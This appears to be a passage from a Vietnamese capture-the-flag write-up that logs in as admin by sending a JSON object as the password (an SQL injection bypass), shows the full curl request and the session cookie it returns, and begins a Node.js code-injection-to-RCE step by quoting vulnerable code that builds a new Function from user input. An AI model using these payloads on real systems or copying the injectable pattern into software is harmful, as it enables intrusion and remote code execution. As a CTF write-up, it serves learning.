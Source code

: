 **become**:
```
SELECT username FROM users WHERE username = 'admin' AND password = `password` = 1
```
Bypassed!!

**Lấy cookies**:
```bash
curl 'http://159.65.19.24:30081/api/login' \
  -H 'Accept: */*' \
  -H 'Accept-Language: en-US,en;q=0.9,vi;q=0.8' \
  -H 'Connection: keep-alive' \
  -H 'Content-Type: application/json' \
  -H 'Origin: http://localhost:1337' \
  -H 'Referer: http://localhost:1337/' \
  -H 'Sec-Fetch-Dest: empty' \
  -H 'Sec-Fetch-Mode: cors' \
  -H 'Sec-Fetch-Site: same-origin' \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.64 Safari/537.36' \
  -H 'sec-ch-ua: " Not A;Brand";v="99", "Chromium";v="101", "Google Chrome";v="101"' \
  -H 'sec-ch-ua-mobile: ?0' \
  -H 'sec-ch-ua-platform: "Linux"' \
  --data-raw '{"username":"admin","password":{"password": "1"}}' \
  --compressed -v
```
**Ta được cookies**: 
```
session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNjU0MTg3Njk1fQ.jv0_P_Kaek5GG0PncV9FlZz_0C_twsqkGyyqNhGeShI;
```
Kiến thức mới!!!

### node.js code injection => RCE

Sau khi login được ta exploit đoạn code calculate `eval()` sau, khá dễ khi mà ta đã được test trên local

file `/helpers/SpikyFactor.js`:
```js
const calculate = (activity, health, weight, happiness) => {
    return new Promise(async (resolve, reject) => {
        try {
            // devine formula :100:
            let res = `with(a='${activity}', hp=${health}, w=${weight}, hs=${happiness}) {
                if (a == 'feed') { hp += 1; w += 5; hs += 3; } if (a == 'play') { w -= 5; hp += 2; hs += 3; } if (a == 'sleep') { hp += 2; w += 3; hs += 3; } if ((a == 'feed' || a == 'sleep' ) && w > 70) { hp -= 10; hs -= 10; } else if ((a == 'feed' || a == 'sleep' ) && w < 40) { hp += 10; hs += 5; } else if (a == 'play' && w < 40) { hp -= 10; hs -= 10; } else if ( hs > 70 && (hp < 40 || w < 30)) { hs -= 10; }  if ( hs > 70 ) { m = 'kissy' } else if ( hs < 40 ) { m = 'cry' } else { m = 'awkward'; } if ( hs > 100) { hs = 100; } if ( hs < 5) { hs = 5; } if ( hp < 5) { hp = 5; } if ( hp > 100) { hp = 100; }  if (w < 10) { w = 10 } return {m, hp, w, hs}
                }`;
            quickMaths = new Function(res);
```
